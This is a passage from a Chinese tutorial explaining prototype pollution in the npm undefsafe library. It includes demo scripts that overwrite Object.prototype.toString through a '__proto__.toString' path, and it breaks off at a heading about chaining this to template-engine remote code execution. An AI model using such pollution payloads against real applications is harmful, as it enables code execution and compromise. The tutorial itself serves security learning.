 然后是简易赋值

```js
console.log(object)
//{ a: { b: { c: 1, d: [Array], e: 'amiz' } } }
undefsafe(object, 'a.b.e', '123')
console.log(object)
// { a: { b: { c: 1, d: [Array], e: '123' } } }
```

但如果我们访问的属性不存在

```js
console.log(object)
//{ a: { b: { c: 1, d: [Array], e: 'amiz' } } }
undefsafe(object, 'a.f.e', '123')
console.log(object)
// { a: { b: { c: 1, d: [Array], e: 'amiz' }, e: '123' } }
```

它会直接给你摞起来，看起来肥肠的奇怪

demo1.js

```js
var undefsafe = require('undefsafe')
var object = {
    a:{
        b:{
            c:1,
            d:[1,2,3],
            e:'amiz'
        }
    }
}

var payload = "__proto__.toString"
undefsafe(object, payload, "whoami")
console.log(object.toString)
// whoami
```

当传入的后两个参数可控时可以污染`object`对象

demo2.js

```js
test = {}
console.log('this is ' + test)
// this is [object Object]
undefsafe(test, '__proto__.toString', function (){return 'evil code'})
console.log('this is ' + test)
// this is evil code
```

将对象和字符串拼接时自动调用`toString`，但是test对象中没有，于是到`test.__proto__`中寻找，找到了`toString`并调用，而此时`toString`已经被污染

### 结合模板引擎RCE的实例
